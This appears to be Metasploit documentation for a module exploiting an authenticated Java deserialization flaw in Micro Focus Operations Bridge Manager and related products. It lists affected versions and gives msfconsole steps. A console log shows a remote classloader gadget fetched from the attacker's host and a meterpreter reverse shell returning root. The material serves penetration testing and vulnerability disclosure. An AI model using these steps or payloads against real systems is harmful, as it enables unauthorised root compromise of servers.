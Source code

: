 ## Vulnerable Application

This module exploits an authenticated Java deserialization that affects a truckload of Micro Focus products:
* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Data Center Automation version 2019.11
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11
* Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30
* Hybrid Cloud Management version 2020.05
* Service Management Automation versions 2020.5 and 2020.02

Exploiting this vulnerability will result in remote code execution as the root user on Linux or the SYSTEM user on Windows.
Authentication is required, the module user needs to login to the application and obtain the authenticated LWSSO_COOKIE_KEY,
which should be fed to the module.
Any authenticated user can exploit this vulnerability, even the lowest privileged ones.

The exploit uses a modified ysoserial c3p0 payload. The only part that is modified is that c3p0 is built using version 0.9.1.2,
so that the serialVersionUid of the target is the same as the exploit. This can be achieved by patching ysoserial's pom.xml.

This module was only tested with Operations Bridge Manager 2020.05 and 2019.11. It should work as is with earlier Operations Bridge Manager
versions, but it might require small modifications (to the cookie name or vulnerable URI) for the other affected products. However it is
equally likely that it works out of the box with the other products, as HPE / Micro Focus is well known for re-using (vulnerable) code.

For more information refer to the advisory link:
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obm_auth_rce`
4. `set rhost TARGET`
5. `set lhost YOUR_IP`
6. `set srvhost YOUR_IP`
7. `set lwsso_cookie_key AUTHENTICATED_COOKIE`
8. `run`
9. You should get a shell.

## Options
`LWSSO_COOKIE_KEY` is a required option that must be set by the user. This cookie is returned when a user authenticates to OBM using the
web interface.
Paste the cookie contents into this variable so that the module can perform the authenticated exploit.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_obm_auth_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set rhosts 10.0.0.10
rhosts => 10.0.0.10
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set srvhost 10.0.0.1
srvhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lwsso_cookie_key "7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew.."
lwsso_cookie_key => 7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew..
msf6 exploit(multi/http/microfocus_obm_auth_rce) > check
[*] 10.0.0.10:443 - The service is running, but could not be validated.
msf6 exploit(multi/http/microfocus_obm_auth_rce) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] Using URL: http://10.0.0.1:8080/
[+] Started remote classloader server at http://10.0.0.1:8080/
[*] Sending remote classloader gadget to https://10.0.0.10/legacy/topaz/sitescope/conf/registration
[*] Sending stage (58147 bytes) to 10.0.0.10
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.9.8.10:36432) at 2021-01-28 18:13:18 +0700
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > shell
Process 1 created.
Channel 1 created.
uname -a
Linux pwned 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
```
